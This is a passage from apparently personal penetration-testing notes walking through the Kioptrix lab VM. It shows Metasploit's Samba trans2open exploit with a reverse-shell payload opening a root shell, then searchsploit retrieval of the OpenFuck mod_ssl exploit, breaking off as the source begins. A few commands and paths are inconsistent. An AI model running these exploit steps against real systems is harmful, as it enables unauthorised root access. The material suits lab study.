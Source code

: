 To set our own payload, we can use the `set` command. This gives metasploit something to actually inject into memory we can access via this [buffer-overflow](/cybersecurity/TTPs/exploitation/binary-exploitation/buffer-overflow.md). To see a list of all the payloads, you can start typing `set payload`, then use double tap to see all of the available options:
```bash
msf6 exploit(linux/samba/trans2open) > set payload 
set payload generic/custom
set payload generic/debug_trap
set payload generic/shell_bind_aws_ssm
set payload generic/shell_bind_tcp
set payload generic/shell_reverse_tcp
...
```
In this case, we want a payload which will execute successfully on a linux target. 
```bash
set payload linux/x86/samba/reverse_shell_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > run
*] Started reverse TCP handler on 10.0.2.4:4444 
[*] 10.0.2.5:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.5:139 - Trying return address 0xbffffbfc...
[*] Command shell session 12 opened (10.0.2.4:4444 -> 10.0.2.5:32800) at 2023-09-30 16:43:23 -0400
whoami
root # <--- output from target
```
# Gaining Root 'Manually'
Instead of using Metasploit to do everything for us, we can achieve the same results manually.
## OpenFuck
[OpenFuck](/cybersecurity/vulnerabilities/openfuck.md) is another vulnerability which we found that Kioptrix is likely vulnerable to. Lets try to manually exploit Kioptrix w/ it.
### Using Searchsploit
We can get the exploit code for OpenFuck from either [Exploit-DB](https://www.exploit-db.com) or by using the [searchsploit](/cybersecurity/tools/exploitation/searchsploit.md) command (since we have a library of most of the Exploit DB database on hand already downloaded).
```bash
searchsploit openfuck
 Exploit Title                                             |  Path
----------------------------------------------------------------------- --------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c'              |unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c'            | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c'            | unix/remote/764.c
----------------------------------------------------------------------- --------------
Shellcodes: No Results
```
We've got 3 versions of OpenFuck on hand. Let's use `OpenFuck.c`, which is located at `/etc/share/exploitdb/exploits/usr/remote/21671.c`. Instead of using this version, lets copy it into a new folder called `kioptrix`
```bash
mkdir kioptrix
cp /usr/share/exploitdb/exploits/unix/remote/21671.c kioptrix/21671.c
```
**BEFORE EXECUTING SOME RANDOM MALWARE ON OUR MACHINE** let's check it against the [official repo](https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/unix/remote/21671.c?ref_type=heads) (hosted on GitLab) listed on Exploit DB. Both ExploitDB and the repo mark this code as "EDB verified", meaning they've tested in themselves.
### Running `OpenFuck.c`
If we cat the OpenFuck code, we can find some instructions at the top of the file:
```bash
/*
source: https://www.securityfocus.com/bid/5363/info
```